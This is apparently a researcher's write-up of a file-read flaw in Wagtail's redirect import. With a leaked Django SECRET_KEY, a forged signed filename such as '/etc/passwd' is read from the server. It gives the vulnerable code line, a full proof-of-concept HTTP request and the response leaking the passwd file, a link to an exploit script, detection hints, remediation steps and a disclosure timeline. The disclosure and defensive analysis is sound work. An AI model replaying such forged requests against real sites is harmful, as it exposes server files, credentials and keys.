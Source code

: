 # When a Leaked Django SECRET_KEY Becomes Worse: A Case Study in Wagtail

## Introduction

In the Django ecosystem, the `SECRET_KEY` is already a highly sensitive
value. Its leakage typically allows attackers to forge tokens, reset
passwords, or hijack sessions in certain configurations. However, while
investigating Wagtail's `redirects` module, I discovered a case where a
leaked `SECRET_KEY` could escalate beyond user/session abuse and enable
**server-side file reads**. Python script for exploitation of this vulnerability is available on my [github](https://github.com/Habuon/wagtail-lfi).

## Vulnerability Overview

**File:** `wagtail/contrib/redirects/tmp_storages.py`

**Line:** 72

``` python
return os.path.join(tempfile.gettempdir(), self.name)
```

The `self.name` value originates from a signed parameter in the request.
While the signing mechanism ensures integrity, it does not sanitize the
contents. If an attacker can forge valid signatures (possible if they
possess the Django `SECRET_KEY`), they can supply filenames such as `/etc/passwd`.
The code concatenates this unchecked value into the filesystem path,
effectively allowing traversal outside the intended temporary directory.



## Exploitation Conditions

To exploit this issue, an attacker must:

1.  **Know the Django `SECRET_KEY`** - already a serious breach.
2.  **Hold a valid Wagtail account** with permission to add redirects.
3.  **Craft a malicious signed filename** pointing to sensitive files.

If these conditions are met, the attacker can exfiltrate arbitrary files
from the server. The example request containing valid session for high privileged user is as follows:

**HTTP request:**
```HTTP
POST /admin/redirects/import/process/ HTTP/1.1
Host: localhost:8000
Cookie: csrftoken=JnnVucJbHd8qEaLPg1Sgr4jakrqxBJeO; sessionid=1y21vfn0g6thvfp06c2sooiu0symurie
Content-Length: 492
Content-Type: multipart/form-data; boundary=58070cece7e28a1b1230238d327e961c

--58070cece7e28a1b1230238d327e961c
Content-Disposition: form-data; name="csrfmiddlewaretoken"

f1Eii97cre31xBWPvNBkysKEXJL0iEAKOeR3CbGdYh1h1BxuBEjqPmTE701nJdEo
--58070cece7e28a1b1230238d327e961c
Content-Disposition: form-data; name="import_file_name"

/etc/passwd:EOyyi1lH0t4QL209IuRxanXgAstgxxxCA3NCAr4JPn8
--58070cece7e28a1b1230238d327e961c
Content-Disposition: form-data; name="input_format"

0:DmT0RMY6RdLc70Vt7wiYA32_Cl4z5UK1pBBI_ybYFGE
--58070cece7e28a1b1230238d327e961c--
```
The response to this request contains contents of the `/etc/passwd` file that was requested.

**HTTP Response:**
```HTTP
HTTP/1.1 200 OK
Server: WSGIServer/0.2 CPython/3.13.3
Content-Type: text/html; charset=utf-8
...
Content-Length: 38988


<html lang="en-us" dir="ltr" class="w-theme-system w-density-default w-contrast-system">    
    ...
    <form action="/admin/redirects/import/process/" method="POST" class="nice-padding" novalidate enctype="multipart/form-data">
    ...
        <h2>Preview</h2>
        <table class="listing listing-with-x-scroll">
            <thead>
                <tr><td>root:x:0:0:root:/root:/usr/bin/zsh</td></tr>
            </thead>
            <tbody>
                    <tr><td>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin</td></tr>
                    ...
                    <tr><td>redis:x:129:131::/var/lib/redis:/usr/sbin/nologin</td></tr>
                    <tr><td>kali:x:1000:1000::/home/kali:/usr/bin/zsh</td></tr>
            </tbody>
        </table>
    </form>
    ...
</html>
```


## Security Impact

While compromising `SECRET_KEY` is catastrophic on its own, typical
attacks remain at the **application/user level** (session forgery, token
signing). This vulnerability increases the impact by extending it to the
**server level**, enabling access to:

-   Environment files (`.env`)
-   Source code
-   Private keys (SSH, API credentials)
-   Configuration files

This effectively turns a cryptographic key leak into a **local file
inclusion (LFI)** issue.

## Example scenario - exposed `.git` plus leaked `SECRET_KEY`

A realistic and common way a `SECRET_KEY` becomes exposed is through accidental commits that include configuration files, `.env`, or even a `.git` directory published to a public repository or an exposed backup. Imagine a developer accidentally pushes an unignored `settings.py` containing `SECRET_KEY`. An attacker who clones the repository or retrieves the exposed `.git` data can easily extract the `SECRET_KEY` and other sensitive config values.

In this situation the vulnerability we discussed becomes materially worse. With the leaked `SECRET_KEY` an attacker who also controls (or compromises) a Wagtail account with sufficient permissions can forge a signed filename and use the import endpoint to read arbitrary files from the server. That file-read capability may allow the attacker to harvest additional secrets — for example, .env files, database credentials, SSH keys, or API tokens — which can in turn enable full server compromise. In short: an initial repository leak that exposes `SECRET_KEY` can cascade into a full breach when combined with the unchecked filename usage.

### Detection hints

 - Search public git hosting (and archived/backup sites) for the project name, repo snapshots, or accidentally published `.git` folders.

 - Scan commit history for accidentally committed settings.py, .env, or any file containing `SECRET_KEY`.

 - On the server, look for unexpected access patterns to admin endpoints (import endpoints, redirect imports) and unusual file reads by the web process.

 - Check logs for requests to the import endpoint that include unusual filename strings containing ../, absolute paths, or long path segments.

### Immediate remediation if you find a leak

 1. Rotate the `SECRET_KEY` immediately and plan for the side effects (invalidate signed cookies/tokens).

 2. Rotate any other secrets found in the repo or on the server (DB passwords, API keys, SSH keys).

 3. Remove the exposed `.git` or any sensitive files from public access and rewrite history where feasible (e.g., git filter-repo or bfg) — note that simply deleting a file from a repo does not remove it from history.

 4. Force password resets for admin users if you suspect session or token forgery.

 5. Audit and monitor for suspicious admin activity and new unknown keys appearing in logs or configs.




## CVSS Assessment

Using CVSS v3.1, I scored the issue as follows:

`AV:N/AC:H/PR:H/UI:N/S:C/C:H/I:N/A:N`

**Base Score:** 5.8 (Medium)

While the attack requires high privileges and prior compromise of the
`SECRET_KEY`, the confidentiality impact is high due to server file
exposure.


## Broader Lesson

This case is not about Wagtail being insecure "out of the box". It's
about how **trust in cryptographic signatures must not replace basic
input validation**. Even when parameters are signed, their contents
still need sanitization. Defense in depth matters.


## Timeline

-   **2025-09**: Issue identified and reported to Wagtail Security.
-   **2025-09**: Security team assessed it as not a vulnerability (since
    `SECRET_KEY` leakage is already catastrophic), but agreed the code
    should be hardened.


## Conclusion

While this issue requires multiple preconditions and may not qualify as
a formal vulnerability, it highlights a subtle but important security
lesson. Developers should validate and constrain filenames regardless of
signing, and treat the `SECRET_KEY` as a critical part of their
application security posture.

